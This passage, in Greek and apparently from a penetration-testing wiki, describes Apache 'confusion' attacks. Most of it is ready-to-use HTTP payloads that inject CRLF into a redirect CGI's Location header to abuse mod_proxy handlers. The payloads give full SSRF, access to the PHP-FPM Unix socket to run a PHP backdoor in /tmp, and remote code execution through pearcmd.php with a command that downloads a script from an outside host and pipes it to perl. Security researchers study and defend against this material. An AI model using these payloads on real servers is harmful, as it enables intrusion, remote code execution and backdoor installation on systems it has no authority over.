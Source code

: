 #### **Αυθαίρετος Χειριστής σε Πλήρη SSRF**

Ανακατεύθυνση στο `mod_proxy` για πρόσβαση σε οποιοδήποτε πρωτόκολλο σε οποιοδήποτε URL:
```
http://server/cgi-bin/redir.cgi?r=http://%0d%0a
Location:/ooo %0d%0a
Content-Type:proxy:
http://example.com/%3F
%0d%0a
%0d%0a
```
Ωστόσο, η κεφαλίδα `X-Forwarded-For` προστίθεται αποτρέποντας την πρόσβαση σε σημεία μεταδεδομένων cloud.

#### **Αυθαίρετος Χειριστής για Πρόσβαση σε Τοπικό Unix Domain Socket**

Πρόσβαση στο τοπικό Unix Domain Socket του PHP-FPM για να εκτελέσετε ένα PHP backdoor που βρίσκεται στο `/tmp/`:
```
http://server/cgi-bin/redir.cgi?r=http://%0d%0a
Location:/ooo %0d%0a
Content-Type:proxy:unix:/run/php/php-fpm.sock|fcgi://127.0.0.1/tmp/ooo.php %0d%0a
%0d%0a
```
#### **Αυθαίρετος Χειριστής για RCE**

Η επίσημη [PHP Docker](https://hub.docker.com/\_/php) εικόνα περιλαμβάνει το PEAR (`Pearcmd.php`), ένα εργαλείο διαχείρισης πακέτων PHP από τη γραμμή εντολών, το οποίο μπορεί να καταχραστεί για να αποκτηθεί RCE:
```
http://server/cgi-bin/redir.cgi?r=http://%0d%0a
Location:/ooo? %2b run-tests %2b -ui %2b $(curl${IFS}
orange.tw/x|perl
) %2b alltests.php %0d%0a
Content-Type:proxy:unix:/run/php/php-fpm.sock|fcgi://127.0.0.1/usr/local/lib/php/pearcmd.php %0d%0a
%0d%0a
```
Ελέγξτε [**Docker PHP LFI Summary**](https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html#0x06-pearcmdphp), γραμμένο από [Phith0n](https://x.com/phithon\_xg) για λεπτομέρειες σχετικά με αυτή την τεχνική.

## Αναφορές

* [https://blog.orange.tw/2024/08/confusion-attacks-en.html?m=1](https://blog.orange.tw/2024/08/confusion-attacks-en.html?m=1)

{% hint style="success" %}